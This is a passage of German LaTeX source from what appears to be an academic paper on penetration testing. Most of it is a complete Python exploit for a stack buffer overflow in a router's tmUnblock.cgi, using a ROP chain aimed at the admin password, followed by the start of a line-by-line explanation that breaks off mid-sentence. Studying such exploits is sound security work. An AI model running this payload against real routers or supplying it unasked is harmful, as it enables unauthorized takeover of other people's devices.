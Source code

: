 	Neben dem Finder der Schwachstelle sind Referenzen enthalten, die teilweise
	Code enthalten, der die besagte Schwachstelle ausnutzt. Hierzu gibt es zwei
	Möglichkeiten, einmal ein Pythonskript und ein Programm für das Framework
	Metasploit. Dieses wird zum Durchführen von Penetrationstests genutzt und 
	ist standardmäßig bei Kali Linux vorinstalliert \cite{metasploitpenetrationtesting}.
	Mit dem folgenden Python Skript (Datei: remote\_stack\_overflow.py) wurde 
	der Exploit getestet:
\begin{lstlisting}[language=Python]
#!/usr/bin/env python
#...

import sys, urllib.request, urllib.error

try:
	target = sys.argv[1]
except IndexError:
	print( "Usage: %s <target ip>" % sys.argv[0])
	sys.exit(1)

url = target + '/cgi-bin/tmUnblock.cgi'
if '://' not in url:
	url = 'http://' + url

post_data = "period=0&TM_Block_MAC=00:01:02:03:04:05&TM_Block_URL="
post_data += "B" * 246                  # Filler
post_data += "\x81\x54\x4A\xF0"         # $s0, addr of admin password
post_data += "\x80\x31\xF6\x34"         # $ra
post_data += "C" * 0x28                 # Stack filler
post_data += "D" * 4                    # ROP 1 $s0
post_data += "\x80\x34\x71\xB8"         # ROP 1 $ra
post_data += "E" * 8                    # Stack filler

for i in range(0, 4):
	post_data += "F" * 4                # ROP 2 $s0
	post_data += "G" * 4                # ROP 2 $s1
	post_data += "\x80\x34\x71\xB8"     # ROP 2 $ra
	post_data += "H" * (4-(3*(i//3)))    # Stack filler

try:
	req = urllib.request.Request(url, post_data.encode("utf-8"))
	res = urllib.request.urlopen(req)
except urllib.error.HTTPError as e:
	if e.code == 500:
		print("OK")
	else:
		print ("Received unexpected server response:", str(e))
except KeyboardInterrupt:
	pass
\end{lstlisting}
	In der ersten Zeile wird definiert, dass es sich um ein Python Skript handelt. 
	Nachdem die benötigten Bibliotheken eingebunden wurden, folgt in einem try-
	except Block (Z. 6-10) die Überprüfung der Übergabeparameter. Wird kein Parameter
	übergeben löst das einen IndexError aus, der dann wiederum eine Fehlermeldung
	auf der Konsole ausgibt und das Programm in Zeile 10 beendet \cite{builtinexceptions}.
	Die fehlerhafte cgi Datei wird in Zeile 14 an die übergebene IP angehängt und
	in den folgenden zwei Zeilen wird sichergestellt, dass die URL mit 
